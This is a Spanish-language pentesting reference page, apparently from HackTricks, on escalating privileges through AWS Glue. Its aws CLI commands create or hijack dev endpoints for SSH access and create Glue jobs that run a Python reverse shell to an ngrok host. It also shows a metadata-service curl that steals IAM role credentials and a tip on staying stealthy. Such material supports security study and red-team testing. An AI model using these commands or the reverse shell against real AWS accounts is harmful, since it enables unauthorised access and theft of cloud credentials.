 # AWS - Glue Privesc

{{#include ../../../banners/hacktricks-training.md}}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Los usuarios con estos permisos pueden **configurar un nuevo punto de enlace de desarrollo de AWS Glue**, **asignando un rol de servicio existente asumible por Glue** con permisos específicos a este punto de enlace.

Después de la configuración, el **atacante puede SSH en la instancia del punto de enlace**, y robar las credenciales IAM del rol asignado:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Para propósitos de sigilo, se recomienda usar las credenciales de IAM desde dentro de la máquina virtual de Glue.

**Impacto Potencial:** Privesc al rol de servicio de Glue especificado.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Los usuarios con este permiso pueden **alterar la clave SSH de un** endpoint de desarrollo de Glue existente, **habilitando el acceso SSH a él**. Esto permite al atacante ejecutar comandos con los privilegios del rol adjunto al endpoint:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Impacto Potencial:** Privesc al rol del servicio glue utilizado.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Los usuarios con **`iam:PassRole`** combinado con **`glue:CreateJob` o `glue:UpdateJob`**, y **`glue:StartJobRun` o `glue:CreateTrigger`** pueden **crear o actualizar un trabajo de AWS Glue**, adjuntando cualquier **cuenta de servicio de Glue**, e iniciar la ejecución del trabajo. Las capacidades del trabajo incluyen ejecutar código Python arbitrario, que puede ser explotado para establecer un shell inverso. Este shell inverso puede ser utilizado para exfiltrar las **credenciales IAM** del rol adjunto al trabajo de Glue, lo que lleva a un posible acceso no autorizado o acciones basadas en los permisos de ese rol:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Impacto Potencial:** Privesc al rol del servicio glue especificado.

### `glue:UpdateJob`

Solo con el permiso de actualización, un atacante podría robar las credenciales IAM del rol ya adjunto.

**Impacto Potencial:** Privesc al rol del servicio glue adjunto.

## Referencias

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../banners/hacktricks-training.md}}
